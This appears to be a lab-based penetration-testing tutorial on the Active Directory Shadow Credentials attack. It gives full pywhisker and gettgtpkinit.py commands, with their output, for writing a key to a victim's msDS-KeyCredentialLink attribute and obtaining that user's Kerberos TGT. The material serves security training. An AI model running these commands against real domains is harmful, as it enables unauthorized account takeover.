 ## Shadow Credentials (msDS-KeyCredentialLink)

[Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) refers to an Active Directory attack that abuses the [msDS-KeyCredentialLink](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attribute of a victim user. This attribute stores public keys that can be used for authentication via PKINIT. In BloodHound, the `AddKeyCredentialLink` edge indicates that one user has write permissions over another user's `msDS-KeyCredentialLink` attribute, allowing them to take control of that user.

<figure><img src="../../../../.gitbook/assets/image (554).png" alt=""><figcaption></figcaption></figure>

We can use [pywhisker](https://github.com/ShutdownRepo/pywhisker) to perform this attack from a Linux system. The command below generates an `X.509 certificate` and writes the `public key` to the victim user's `msDS-KeyCredentialLink` attribute:

```shell-session
$ pywhisker --dc-ip 10.129.234.109 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add

[*] Searching for the target account
[*] Target user found: CN=Jesse Pinkman,CN=Users,DC=inlanefreight,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3496da7f-ab0d-13e0-1273-5abca66f901d
[*] Updating the msDS-KeyCredentialLink attribute of jpinkman
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: eFUVVTPf.pfx
[+] PFX exportiert nach: eFUVVTPf.pfx
[i] Passwort für PFX: bmRH4LK7UwPrAOfvIx6W
[+] Saved PFX (#PKCS12) certificate & key at path: eFUVVTPf.pfx
[*] Must be used with password: bmRH4LK7UwPrAOfvIx6W
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

In the output above, we can see that a `PFX (PKCS12)` file was created (`eFUVVTPf.pfx`), and the password is shown. We will use this file with `gettgtpkinit.py` to acquire a TGT as the victim:

```shell-session
$ python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 INLANEFREIGHT.LOCAL/jpinkman /tmp/jpinkman.ccache

2025-04-28 20:50:04,728 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-04-28 20:50:04,775 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-04-28 20:50:04,929 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-04-28 20:50:04,929 minikerberos INFO     f4fa8808fb476e6f982318494f75e002f8ee01c64199b3ad7419f927736ffdb8
INFO:minikerberos:f4fa8808fb476e6f982318494f75e002f8ee01c64199b3ad7419f927736ffdb8
2025-04-28 20:50:04,937 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```